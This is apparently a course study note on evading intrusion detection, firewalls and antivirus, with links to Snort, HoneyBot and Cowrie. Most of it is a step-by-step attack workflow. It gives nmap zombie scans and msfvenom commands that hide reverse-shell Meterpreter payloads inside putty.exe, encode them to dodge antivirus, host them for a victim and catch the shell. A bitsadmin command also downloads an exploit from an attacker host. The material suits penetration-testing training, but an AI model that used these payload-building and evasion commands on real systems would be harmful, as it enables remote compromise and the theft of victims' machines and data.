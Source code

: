 # Module 12

## Evading IDS, antivirus and Honeypots
Intrusion Detection Systems (IDS) add a critical security layer, making them prime targets. Attackers use sophisticated evasion techniques to bypass detection and compromise the infrastructure. Similarly, firewalls relying on predefined rules can be tricked by skilled attackers using various bypass methods to allow malicious traffic to pass unfiltered.

---

### 1. Intrusion Detection using various tools
The goal of the Intrusion Detection Analyst is to find possible attacks against a network.

#### 1.1 Detect Intrusion using snort
[Snort - Network Intrusion Detection & Prevention System](https://www.snort.org/)

#### 1.2 Detect Malicious traffic with Zone alarm free firewall
[ZoneAlarm Free Firewall](https://www.zonealarm.com/software/free-firewall)

#### 1.3 Detect Malicious traffic using HoneyBot
[HoneyBot](https://honeybot.software.informer.com)

#### 1.4 Deploy Cowrie Honeypot to Detect Malicious Network Traffic
Cowrie serves as an SSH and Telnet honeypot, capable of capturing brute-force attacks and the actions taken by attackers within the shell.
[GitHub - cowrie/cowrie: Cowrie SSH/Telnet Honeypot https://cowrie.readthedocs.io](https://github.com/cowrie/cowrie)

---

### 2. Evade Firewall using Evasion Techniques
<img width="428" height="575" alt="image" src="https://github.com/user-attachments/assets/a333df1e-0c81-4fb8-8f58-7872bb5c2bac" />

#### 2.1 Bypass firewall using Nmap
Add a rule in windows firewall to block all traffic from the attacking machine.
In Ping sweep, the host will appear as online
- `nmap -sP 192.168.18.0/24`  only discover which hosts are up
Zombie scan can bypass the firewall rule
- `nmap -sI 192.168.18.2 192.168.18.11`  .2 is the zombie, .11 is the target

#### 2.2 Bypass firewall rules using HTTP/ FTP Tunneling 
HTTPort is a tool that bypasses restrictive HTTP proxies. It tunnels blocked traffic (like email or FTP) through an allowed HTTP connection.

**It works by**:
1. Sending data to a remote server (HTTHost) outside the blocked network using a series of HTTP requests.
2. The proxy sees this as normal web surfing and allows it.
3. The HTTHost server then forwards the traffic to the intended destination.
> This method is reliable and features strong encryption, making proxy logs useless.
[HTTPort, secure TCP through HTTP tunneling](https://www.targeted.org/htthost/)

**Steps**:    
You generated a basic, easily detectable payload:    
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.111.208 LPORT=4444 -f exe -o payload.exe`

Generate a New, Encoded Payload:    
- `msfvenom -p windows/shell_reverse_tcp LHOST=172.16.111.208 LPORT=4445 -x template.exe -k -e x86/shikata_ga_nai -i 5 -f exe -o basic_shell.exe`

You downloaded putty.exe to use as a legitimate template:    
- `wget https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe -O template.exe`    

You injected your payload into that template to create a more evasive executable:    
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.111.208 LPORT=4444 -x template.exe -k -f exe -o harmless_putty.exe`    

**Result**: Your final payload is saved as harmless_putty.exe.    

Start the Listener on Your Kali Machine    
- `msfconsole -q`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST 172.16.111.208`
- `set LPORT 4444`
- `exploit` or `exploit -j`

Download harmless_putty:      
- Open a new terminal and start a web server to host your harmless_putty.exe file so the victim can download it.
  - `cd ~`
  - `python3 -m http.server 80`
- Download on Victim Machine: On the victim machine (172.16.111.207), open a web browser and go to: http://172.16.111.208    
- Download the harmless_putty.exe file.    
- Execute the Payload: On the victim machine, run the harmless_putty.exe
- Catch the Shell: As soon as the payload is executed, you will see a message in your Metasploit console:

      [*] Sending stage (175774 bytes) to 172.16.111.207
      [*] Meterpreter session 1 opened (172.16.111.208:4444 -> 172.16.111.207:[PORT])
- Interact with the Session: Type the following command at the Metasploit prompt to interact with the victim: `sessions -i 1`
- You are all set! Your listener is active. Just transfer and run the payload on the victim machine to get your Meterpreter session.

#### 2.3 Bypass antivirus using metasploit templates
Attackers use msfvenom with the -x flag to embed a malicious payload into a legitimate, trusted executable file (like calc.exe). This tricks antivirus software into seeing the file as safe because it recognizes the trusted program's signature, allowing the hidden payload to bypass detection.

**How It's Done**
1. Acquire a Legitimate Template: Find a clean, signed executable from a trusted source. This will be your new template.
2. Inject the Payload: Use msfvenom to inject your malicious Metasploit payload (e.g., a reverse shell) into this legitimate executable.
3. The Bypass: The resulting file has the digital signature and code structure of the trusted software, but contains your hidden payload. AV is less likely to flag it because it appears to be a known-good program.

**Basic msfvenom Command**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -x /path/to/legitimate_file.exe -k -f exe -o malicious_output.exe`
  - `-x /path/to/legitimate_file.exe`: Specifies your clean template.
  - `-k`: Tells Metasploit to preserve the template's original functionality alongside the payload. The legitimate program will still run to avoid suspicion.

---

#### 2.4 Bypass firewall using windows BITSAdmin
The utilty can be used to transfer files in windows command prompt.    
BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems. BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.
bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe

---
---
